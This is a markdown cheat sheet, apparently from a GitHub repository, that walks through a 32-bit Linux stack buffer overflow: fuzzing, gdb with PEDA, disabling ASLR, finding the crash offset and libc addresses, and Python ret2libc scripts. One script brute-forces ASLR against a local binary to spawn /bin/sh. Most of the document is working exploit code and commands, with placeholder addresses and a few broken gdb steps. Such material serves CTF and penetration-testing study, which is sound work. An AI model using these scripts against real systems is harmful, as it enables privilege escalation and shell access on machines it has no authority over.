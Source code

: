 # Buffer Overflow

## Test Overflow

```
./binary `python -c 'print "A"*500'`
```

## Open binary with gdb

First install Python Exploit Development Assistance for GDB.
```
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
```

```
gdb ./binary
gdb# b main
gdb# r
```

## Identify if host has ASLR

ASLR - when the address for libc keeps changing.

```
ldd binary | grep libc (run multiple times and check if address changes)
```

Disable ASLR

```
echo 0 > /proc/sys/kernel/randomize_va_space
```

## Create patterns

Create a pattern tht never repeats/ unique string.

```
locate pattern_
pattern_create.rb -l 200
```

Pass argument to binary

```
gdb ./binary
gdb# r '$PATTERN'
```

Copy memory addres of the crash 
```bash
pattern_offset.rb -q 0x64413764   #(Address)
Found match at offset 112
```

## Start buffer overflow script

```python
import struct

buf = "A" * 112
buf += struct.pack("<I",0xd3adc0d3)

print buf
```

```
gdb ./binary
gdb# r 'python buff.py'
```

## Find important addresses

### On Victim machine

```bash 
ldd ovrfl | grep libc #returns the libc address and location
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i system # get system@@GLIBC offset address
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i exit # get exit@@GLIBC offset address
strings -atx /lib/i386-linux-gnu/libc.so.6 | grep bin/sh # get bin/sh string offset address
```

### Or using gdb in similar VM (ASLR is on)
```retlib.c
#include <stdlib.h>
 void main() {
     system("/bin/sh");
 }
```

```
gcc retlib.c -o retlibc
gdb ./retlib
#gdb p system   #get system address
#gdb p exit   #get exit address
#gdb searchmem /bin/sh #get /bin/sh address
#gdb find 0xf7e0c980, +9999999, "/bin/sh"  #get /bin/sh address
```

### Additions to script


```python
import struct

system_addr = struct.pack("<I",0x88482f8)
exit_addr = struct.pack("<I",0xd3adc0d3)
arg_addr = struct.pack("<I",0x88482f8)

buf = "A" * 112
buf += system_addr
buf += exit_addr
buf += arg_addr

print buf
```

```
gdb# r 'python buff.py'
```

### Bruteforce ASLR

On the actual host grab one of the libc addresses.


```python
from subprocess import call
import struct

libc_base_addr = 0x88482f8

system_off = 0xd3adc0d3
exit_off = 0xd3adc0d3
arg_sh = 0xd3adc0d3

system_addr = struct.pack("<I",libc_base_addr + system_off)
exit_addr = struct.pack("<I", libc_base_addr + exit_off)
arg_addr = struct.pack("<I",libc_base_addr + arg_sh)

buf = "A" * 112
buf += system_addr
buf += exit_addr
buf += arg_addr

i=0
while (i < 512):
    print "Try: %s" %i
    i +=1
    ret = call(["/usr/local/bin/ovrflw",buf])
```

If ASLR is off the script will work without the loop and with the print at the end

```
./binary $(python /dev/shm/exploit.py)
```